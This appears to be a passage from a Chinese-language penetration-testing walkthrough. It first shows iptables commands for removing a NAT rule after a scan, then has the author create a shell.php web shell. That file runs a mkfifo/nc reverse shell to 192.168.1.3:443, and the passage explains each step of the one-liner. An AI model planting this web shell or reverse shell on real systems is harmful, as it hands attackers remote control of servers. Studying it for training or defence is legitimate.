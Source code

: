 

#### 扫描结束后清空刚刚的iptables规则

```
iptables -t nat -L PREROUTING -v -n --line-numbers
iptables -t nat -D PREROUTING 1
iptables -t nat -L -v -n
```

![image-20250316215943885](assets/image-20250316215943885.png)

先查看该规则的行号

然后根据行号删除规则

最后检查





#### 网站目录新建一个shell.php

```
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.3 443 >/tmp/f");?>
```

![image-20250316220135043](assets/image-20250316220135043.png)

rm /tmp/f：

- 删除 /tmp/f 文件（如果存在）。
- 目的：确保后续创建的命名管道不会与已有文件冲突。

mkfifo /tmp/f：

- 创建一个命名管道（FIFO 文件）/tmp/f。
- 命名管道：一种特殊文件，允许进程间通信，数据从写入端流向读取端。
- 目的：为后续的 cat 和 nc 提供数据传输通道。
